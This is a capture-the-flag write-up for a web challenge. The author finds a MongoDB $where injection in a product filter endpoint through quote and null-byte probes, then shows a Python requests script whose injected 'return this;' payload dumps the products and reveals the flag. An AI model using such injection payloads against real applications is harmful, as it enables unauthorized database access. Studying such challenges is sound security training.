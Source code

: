 # web 4 - Walmart!
https://ctftime.org/event/2179/

blind challenge
the vulnerability is in `/api/products/filter`

You can see that by doing either `'` or `\\` on the category field and seeing that the server returns a 500.
If you have familiarity with nosql db I think it gets very obvious what the issue is.
I dont have that if you dont then you have to try a lot of stuff and see what gives 500 and what doesnt.

so after some trial and error I got to
hardware\u0027\u0000
and then to
hardware\u0027;\u0000
eventually to 
hardware\u0027sleep()\u0000
and then to
https://www.mongodb.com/docs/manual/reference/operator/query/where/
and then it was easy

```python
import requests, sys

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0',
    'Accept': '*/*',
    'Accept-Language': 'pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': 'http://184356e.678470.xyz/shop',
    'Content-Type': 'application/json',
    'Origin': 'http://184356e.678470.xyz',
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
}

json_data = {
    'category': 'hardware\u0027;return this;\u0000',
    'price_order': 'low_to_high',
}

response = requests.post('http://e770288.678470.xyz/api/products/filter', headers=headers, json=json_data)
print(f"{response.text}")
```

wxmctf{why_bl1nd_sql_1nj3ct10n}
